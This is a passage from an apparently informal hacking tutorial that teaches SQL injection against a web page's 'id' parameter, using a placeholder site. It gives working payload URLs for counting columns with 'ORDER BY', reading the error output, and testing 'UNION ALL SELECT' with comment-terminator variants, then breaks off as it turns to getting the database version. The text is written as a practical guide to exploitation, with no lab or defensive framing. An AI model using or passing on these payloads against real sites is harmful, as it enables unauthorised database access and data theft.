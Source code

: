4. Now, Lets go to exploiting this vuln and finding some informations about this sql database


# certainly before doing anything we have to find the number of columns

1. Finding the number of columns:

for finding the number of columns we use ORDER BY to order result in the database
lets see that ,

http://www.website.com/articles.php?id=3 order by 1/*

2. and if we havn't any error we try to change the number

http://www.website.com/articles.php?id=3 order by 2/*

3. still no error,so we continu to change the number

http://www.website.com/articles.php?id=3 order by 3/*

4. no error to

http://www.website.com/articles.php?id=3 order by 4/*

5. no error

http://www.website.com/articles.php?id=3 order by 5/*

6. yeah , here we have this error (Unknown column '5' in 'order clause')
so, this database has 4 colmuns because the error is in the 5

7. now, we try to check that UNION function work or not

# Checking UNION function :

1. for using UNION function we select more informations from the database in one statment

2. so we try this

http://www.website.com/articles.php?id=3 union all select 1,2,3,4/* (in the end it's 4 because we have see the number of columns it's 4)

3. now, if we see some numbers in the page like 1 or 2 or 3 or 4 == the UNION function work

  a. if it not work we try to change the /* to --

4. so we have this

http://www.website.com/articles.php?id=3 union all select 1,2,3,4--

5. after checking the UNION function and it works good we try to get SQL version

# Getting SQL Version :

now we have a number in the screen after checking the UNION
we say in example that this number is 3
